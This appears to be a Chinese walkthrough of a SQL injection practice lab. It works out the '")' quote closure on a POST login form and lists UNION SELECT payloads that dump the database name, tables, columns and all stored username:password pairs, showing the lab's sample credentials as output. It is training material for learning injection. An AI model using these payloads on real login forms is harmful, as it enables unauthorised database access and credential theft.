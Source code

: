 # 确认闭合状态
跟上题一样，使用post方式输入：passwd=1' or 1=1 --+&submit=Submit&uname=1  
失败

输入passwd=1" or 1=1 --+&submit=Submit&uname=1  
报错near '' at line 1

说明双引号是对的，但不完全对，我们添加括号试试

输入：passwd=1") or 1=1 --+&submit=Submit&uname=1
正常回显

说明该题是双引号加括号的闭合形式

剩下payload与11关一致
 # 查询数据库名
passwd=1") union select database(),2--+&submit=Submit&uname=1

# 查询表名
passwd=1") union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+&submit=Submit&uname=1

# 查询列名
passwd=1") union select group_concat(column_name),2 from information_schema.columns where table_name='users' and table_schema=database()--+&submit=Submit&uname=1

# 查询值
passwd=1") union select group_concat(username,':',password),2 from users--+&submit=Submit&uname=1

回显：  
Your Login name:Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4  
Your Password:2